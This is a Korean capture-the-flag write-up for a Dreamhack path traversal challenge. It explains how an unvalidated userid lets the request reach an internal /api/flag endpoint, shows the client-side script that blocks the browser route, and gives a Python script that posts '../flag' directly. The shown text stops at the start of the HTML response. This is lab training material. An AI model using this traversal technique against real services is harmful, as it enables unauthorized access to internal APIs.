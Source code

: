 다음의 조건을 준수하면 flag값을 찾을 수 있다.

1. get_info 함수에서 userid에 값을 담아 POST 요청을 보내면 127.0.0.1/api/user/{userid} 로 요청을 보낼 수 있다.
2. 이 127.0.0.1은 internal_api 사용 조건이므로 internal_api인 /api/flag에도 접근이 가능하다. 
3. 사용자가 입력값을 넣는 userid에는 입력값 검증을 추가로 하지 않으므로 PATH Traversal이 가능하다.

![flag 실패.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9e3b210d-18f4-47c1-b6de-36a6a6fffdc5/flag_.png)

따라서 ../flag를 입력해주어 127.0.0.1/api/user/../flag로 하여 127.0.0.1/api/flag를 의도하고 View를 클릭하였으나 어째서인지 FLAG가 나오지 않았다. 

그래서 개발자 도구로 userid를 확인해보았더니

![개발자도구.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1193a743-3ae0-4e54-9bd8-321fcfc39eea/.png)

내가 의도했던 ../flag가 userid에 들어가 있는 것이 아닌 undefined가 들어가있는 것이 확인되었다.

그래서 이 페이지의 소스코드를 살펴보니

```python
<script>
  const users = {
    'guest': 0,
    'admin': 1
  }
  function user(evt){
  	document.getElementById('userid').value = users[document.getElementById('userid').value];
    return true;
  }
  window.onload = function() {
    document.getElementById('form').addEventListener('submit', user);
  }
</script>
```

위와 같은 스크립트가 발견되었다. 저 function user(evt)함수 때문에 내가 넣은 userid값은 users[userid]를 거쳐서 const users에 있는 0(guest)이나 1(admin) 혹은 undefined로 변환되어서 전달되고 있던 것이었다. 그리고 이는 아마 View 버튼을 누르는 이벤트로 인해 발생하는거 같으므로 아예 파이썬 코드를 통해서 보내보았다.

```python
import requests
url=f"http://host3.dreamhack.games:8276/get_info"
#
data={
    "userid":"../flag"
    }

response=requests.post(url,data)
print(response.text)
```

그 결과 응답값으로 

```python
<!doctype html>
<html>
  <head>
    <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    <link rel="stylesheet" href="/static/css/bootstrap-theme.min.css">
    <link rel="stylesheet" href="/static/css/non-responsive.css">
    <title>Get User Info Path Traversal</title>
    
  

  </head>
<body>

    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
```